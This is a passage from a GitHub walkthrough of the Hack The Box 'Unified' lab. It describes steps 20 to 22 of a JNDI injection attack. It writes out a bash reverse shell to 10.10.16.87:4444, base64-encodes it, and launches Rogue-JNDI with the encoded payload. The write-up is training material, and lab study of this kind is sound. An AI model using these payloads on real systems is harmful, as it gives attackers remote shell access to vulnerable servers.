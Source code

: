   - Using the Rogue-JNDI server requires creating a payload that, when delivered, provides shell access to the vulnerable system. To mitigate encoding errors, the payload will be encoded in Base64
  ```bash
  echo 'bash -c bash -i >&/dev/tcp/10.10.16.87/4444 0>&1' | base64
  ```
  ## Step 21
  ### ![image_alt](https://github.com/bikasha49/HackTheBox-Unified-Tier-II-Challenge/blob/32083b372e7853eecb3a4f67e02e63cd5f4e7dd6/21%20rouge%20jndi%20made%20java-jar%20and%20target%20and%20copy%20that%20ldap%20mapping%20and%20repace%20it%20in%20remember%20section%20payload.png)
  - Once the payload is created, launch the Rogue-JNDI application by specifying the payload with the --command option and providing your tun0 IP address with the --hostname option.
  ```bash
  java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuODcvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.16.87"
  ```
  ## Step 22